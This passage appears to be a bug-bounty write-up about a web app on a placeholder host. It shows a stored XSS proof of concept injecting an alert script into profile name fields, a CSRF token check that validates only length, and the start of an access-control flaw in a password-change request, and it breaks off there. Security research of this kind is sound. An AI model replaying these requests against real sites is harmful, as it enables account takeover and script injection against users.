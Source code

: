 ```javascript
password = txtpass
```

This is the plaintext password varibale which we had encountered before

### Stored Cross Site Scripting

In the user profile section, there was a form to update user details like Name, I tried several payloads but failed due to input handling the special characters are not allowed, but it was the story of frontend

When I intercepted the update request and inserted my payload in name parameter

```
POST /updateUserinfo HTTP/1.1
Host: example.com
...
Cookies=COOKIES

email=test@test.com&fname=<script>alert('XSS')</script>&lname=<script>alert('XSS')</script>
```

it was successfully process and I got popups for both the fields, it was a stored XSS on the profile

### Cross Site Request Forgery

The CSRF was in the Update Password functionality

```
POST /changePassword HTTP/1.1
Host: example.com
...
csrftoken= CSRFTOKENHERE
Cookies=COOKIES

email=test@test.com&newpassword=Password&cfmpassword=Password
```

The request contains a CSRF token in it, when I tested it for some time I found out that only token length is validated, I can send any alphanumeric strings of 35 characters and it will be accepted, i found out this by changing a single character in CSRF token and after that also the request processed successfully

### Improper Access Control

In the same `change password` request there was broken access control, when a user tries to update the password the following request is sent

```
POST /changePassword HTTP/1.1
Host: example.com
...
Cookies=COOKIES

email=test@test.com&newpassword=Password&cfmpassword=Password
```

